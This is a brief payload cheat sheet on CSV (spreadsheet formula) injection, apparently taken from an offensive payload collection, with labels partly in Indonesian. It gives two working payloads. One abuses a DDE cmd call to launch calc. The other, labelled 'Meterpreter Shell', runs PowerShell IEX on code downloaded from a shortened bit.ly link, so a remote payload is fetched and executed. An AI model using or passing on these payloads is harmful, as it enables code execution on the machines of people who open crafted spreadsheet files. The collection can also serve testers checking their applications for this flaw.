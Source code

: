## CSV Injection

**Newline character/*Baris karakter baru**

```
%0A-3+3+cmd|' /C calc'!D2
```

**Meterpreter Shell**

```
=cmd|'/C powershell IEX(wget bit.ly/1X146m3)'!A0
```